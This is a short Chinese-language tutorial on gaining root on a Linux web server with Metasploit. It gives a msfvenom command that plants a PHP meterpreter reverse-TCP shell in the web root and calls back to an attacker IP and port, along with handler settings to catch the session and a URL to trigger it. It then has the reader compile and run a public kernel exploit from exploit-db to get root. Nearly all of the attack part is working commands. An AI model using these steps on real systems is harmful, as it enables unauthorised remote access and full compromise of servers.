


## 1、简介

Metasploit是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程。团队合作，在Metasploit和综合报告提出了他们的发现。

##  2、使用metasploit linux提权

生成攻击载荷

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.31.150 LPORT=12345 -f raw > /var/www/html/shell.php
```

本地监听

```bash
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp 
set lhost 192.168.31.150
set lport 12345
exploit 
```

反弹shell

http://www.webtester.com/shellxx.php

在metasploit设置好监听模块 访问shellx.php 就会获取一个session

   

**3、提权命令**

getuid 查看当前用户
shell 使用终端

https://www.exploit-db.com/exploits/37292

```bash
gcc exp.c -o exp
chmod +x exp
./exp
```

 

 如果成功就会得到一个root 